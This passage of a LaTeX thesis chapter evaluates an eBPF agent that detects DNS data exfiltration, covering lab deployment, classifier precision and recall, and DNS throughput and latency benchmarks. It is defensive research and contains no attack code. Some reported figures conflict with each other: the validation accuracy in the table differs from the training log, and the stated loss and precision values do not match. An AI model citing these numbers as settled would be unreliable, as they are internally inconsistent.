The security framework was deployed across eight CSSVLAB nodes (CSSVLAB{01–08}), each running Ubuntu 24.02 with Linux kernel 6.12 on Intel Xeon Gold 6130. Each node had 8GB RAM and 24GB storage. The systems ran under the \texttt{netvsc} hypervisor network driver, with 100 Gbits/sec network bandwidth and 8 TX/RX hardware queues aligned to CPU cores to enable optimal packet steering and parallel processing for high-throughput netflow handling. In addition, all eight CPU cores and memory resided on a single NUMA node, eliminating memory lookup overhead during kernel benchmarking. The test bench launches a custom PowerDNS authoritative and recursor server on CSSVLAB08. The controller and a Kafka single broker instance run on CSSVLAB01. Nodes CSSVLAB{02–07}, excluding CSSVLAB06, act as the data plane, each running the eBPF agent and using the custom PowerDNS server as the default resolver via systemd-resolved. CSSVLAB06 is used to simulate DNS exfiltration attacks against data plane nodes, tunneling DNS queries through the same PowerDNS instance. The complete deployment is illustrated in \hyperref[sec:deployed-arch]{Figure 5.1}.


\begin{figure}[h]
\centering

\includegraphics[width=1.0\textwidth]{UWThesis/images/cssvlab-arch.png}
\caption{Security Framework Deployed Architecture over CSSVLAB Nodes}
\label{sec:deployed-arch}
\end{figure}

\section{Evaluations Results}
The evaluation of this security framework is presented for each individual component in the subsequent sections.

\subsection{Data Plane}
The effectiveness of the eBPF agent at the endpoint of the data plane is evaluated through quantized deep learning metrics, comparison of DNS request throughput in both operational phases (active and passive), and measurement of bandwidth and resource utilization, including CPU and memory usage, as well as throughput of kernel events processing. Finally, the agent’s resilience coverage against advanced adversary emulation frameworks is explained. Performance evaluation is performed on a single selected node within the data plane running the agent.

\subsubsection{Deep Learning Model Evaluation}
The evaluation of the trained deep learning model was performed on a 3.8 million domain data set, divided into 70\% for training and 15\% for validation and testing. After training, the model achieved a validation precision of 99.7\%, with loss steadily decreasing per epoch and reaching 0.98\% at the end of the training. Given the DNS data exfiltration use case, the model performance was evaluated primarily with an emphasis on minimizing false positives. High false positives would not only result in the eBPF agent dropping benign DNS packets and generating false threat events, but could also terminate legitimate processes introducing operational risks. In contrast, false negatives were considered less critical, as the agent would allow malicious traffic to pass through without taking privilege-level actions. Therefore, \textbf{precision} was prioritized over recall. Specifically, precision and recall are defined as:
\[
\text{Precision} = \frac{\text{TP}}{\text{TP} + \text{FP}},
\]
% while recall is defined as:
\[
\text{Recall} = \frac{\text{TP}}{\text{TP} + \text{FN}}.
\]
Based on these considerations and a dataset engineered to capture a wide range of data obfuscation techniques, the model achieved a high precision of 99.59\% and a recall of 99.87\%. For runtime inference using ONNX within the eBPF agent, a binary classification threshold of 0.85 was selected. This value was chosen based on the performance of the F1 score on varying thresholds, paying careful attention to the corresponding changes in precision and recall. Since minimizing false positives was a top priority, the threshold was selected to maximize precision while still maintaining a relatively high recall. This high-precision, low–false-positive result was made possible by the selected feature set, which included Shannon entropy across various encoding and encryption schemes—enabling the model to learn effectively. \hyperref[tab:model-evaluation-metrics]{Figure 5.1} and \hyperref[fig:threshold-vs-metrics]{Figure 5.2} present the model’s performance on both training and validation datasets, including the confusion matrix. \hyperref[fig:model_precision]{Figure 5.3} and \hyperref[fig:model_f1_threshold]{Figure 5.4} illustrate precision vs. recall improvements over 25 training epochs, and the F1 score and precision/recall score under different thresholds selected to classify in the test dataset.

% 82/82 ━━━━━━━━━━━━━━━━━━━━ 292s 2s/step - ac: 0.9973 - auc: 0.9997 - fn: 831.1627 - fp: 2741.8162 - loss: 0.0099 - precision: 0.9959 - recall: 0.9987 - tn: 663969.7500 - tp: 664216.3125 - val_ac: 0.9974 - val_auc: 0.9997 - val_fn: 314.0000 - val_fp: 1102.0000 - val_loss: 0.0091 - val_precision: 0.9959 - val_recall: 0.9988 - val_tn: 271721.0000 - val_tp: 270863.0000
% Epoch 25/25
\begin{figure}[H]
\begin{minipage}[b]{0.48\textwidth}
\centering
\begin{tabular}{lcc}
\hline
\textbf{Metric} & \textbf{Training} & \textbf{Validation} \\
\hline
Accuracy & 0.9973 & 0.9997 \\
AUC & 0.9997 & 0.9997 \\
Loss & 0.0099 & 0.0091 \\
Precision & 0.9959 & 0.9959 \\
Recall & 0.9987 & 0.9988 \\
\hline
\end{tabular}
\captionof{table}{Model Evaluation Metrics}
\label{tab:model-evaluation-metrics}
\end{minipage}
\hfill
\begin{minipage}[b]{0.48\textwidth}
\centering

\includegraphics[width=\textwidth]{UWThesis/images/results/model/confusion_matrix.png}
\caption{Confusion Matrix}
\label{fig:threshold-vs-metrics}
\end{minipage}
\end{figure}

% \begin{figure}[H]
%   \centering
%   \begin{minipage}{0.48\textwidth}
%     \centering
%     
\includegraphics[width=\textwidth]{UWThesis/images/results/model/macc.png}
%     \caption{Model Accuracy}
%     \label{fig:model_accuracy}
%   \end{minipage}
%   \hfill
%   \begin{minipage}{0.48\textwidth}
%     \centering
%     
\includegraphics[width=\textwidth]{UWThesis/images/results/model/mloss.png}
%     \caption{Model Loss}
%     \label{fig:model_loss}
%   \end{minipage}
% \end{figure}

\begin{figure}[h]
  \centering
  \begin{minipage}{0.48\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/model/mpred.png}
    \caption{Model Precision}
    \label{fig:model_precision}
  \end{minipage}
  \hfill
  \begin{minipage}{0.48\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/model/f1_score.png}
    \caption{Precision, Recall, and F1 Score vs. Threshold}
    \label{fig:model_f1_threshold}
  \end{minipage}
\end{figure}


\subsubsection{eBPF agent Request Throughput and Latency Metrics in Active Mode}
The performance of the system was evaluated in active mode by measuring the impact on benign DNS traffic during standard end-to-end resolution, from a userspace process sending DNS requests, through kernel redirection through eBPF programs, to the network device monitored by the agent. For cache hits, the request is matched against the global SLD cache; for cache misses, live ONNX inference is performed. The kernel feature thresholds in the eBPF map were intentionally kept stringent, causing most DNS packets to be flagged as suspicious to stress-test the throughput. Throughput was measured using DNSPerf, which quantifies both request throughput and DNS response success rates. The test locked DNSPerf to send 10,000 DNS requests per second over 20 seconds, monitoring packet loss. The recursor server was assumed to be healthy with no add-on impact on DNS throughput testing. The testing node relies on the hypervisor-supported \texttt{netvsc} virtual driver and operates with a combined 8 RX/TX queues. As a result, it lacks discrete ring buffers required by the kernel for \texttt{AF\_XDP} sockets, making direct packet injection into TX queues unsupported. As a result, the egress path was forced to rely on \texttt{AF\_PACKET}. In the cache-hit scenario (100\% benign SLD matches), the throughput ranged from 8,100 to 9,820 DNS requests/sec with zero packet loss as presented \hyperref[fig:throughput_gsld]{Figure 5.5}. The latency ranged from near 0 ms to a maximum of 250 ms per 10k sample \hyperlink{fig:latency_gsld}{Figure 5.7}. However, in the cache-miss path that requires live inference, throughput decreased significantly: minimum of 430 and maximum of 520 requests / sec, as illustrated in \hyperref[fig:throughput_onnx]{Figure 5.6}, with peak latencies of up to 750 ms as demonstrated in \hyperref[figC:latency_onnx]{Figure 5.8}. Despite this, no packet loss was observed, which ensures reliability. The latency spike is attributed to the overhead of UNIX domain socket communication with the ONNX inference server and Python’s Global Interpreter Lock (GIL), which limits concurrency. In contrast, the eBPF agent being compiled binary support true concurrency and parallelism, offering significantly better performance.
It was observed that throughput becomes unstable beyond 5,000 DNS requests/sec, though such traffic volumes typically indicate malicious behavior and can be rate-limited in kernel eBPF programs. Overall, for stress testing over a prolonged period of time, the agent successfully processed a maximum throughput of 67.3 million DNS requests per hour with no packet loss, while performing deep parsing across both kernel and userspace.

\begin{figure}[H]
  \centering
  \begin{minipage}[t]{0.47\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/throughput/throughput_active_gsld_lru.png}
    \caption{eBPF Agent: DNS Throughput for GSLD LRU Hit (10k req/s)}
    \label{fig:throughput_gsld}
  \end{minipage}
  \hfill
  \begin{minipage}[t]{0.47\textwidth}
    \centering
    
\includegraphics[width=\textwidth]{UWThesis/images/results/throughput/throughput_active_onnx.png}
    \caption{eBPF Agent: DNS Throughput, GSLD LRU Miss, ONNX (10k req/s)}
    \label{fig:throughput_onnx}
  \end{minipage}

  \vspace{1cm} % Increased spacing before lower images

  \begin{minipage}[t]{0.47\textwidth}
    \centering
    
\includegraphics[width=\textwidth,height=0.68\textwidth]{UWThesis/images/results/throughput/latency_metrics_gsld.png}
    \caption{eBPF Agent: DNS Latency for GSLD LRU Hit (10k req/s)}
    \label{fig:latency_gsld}
  \end{minipage}
  \hfill
  \begin{minipage}[t]{0.47\textwidth}
    \centering
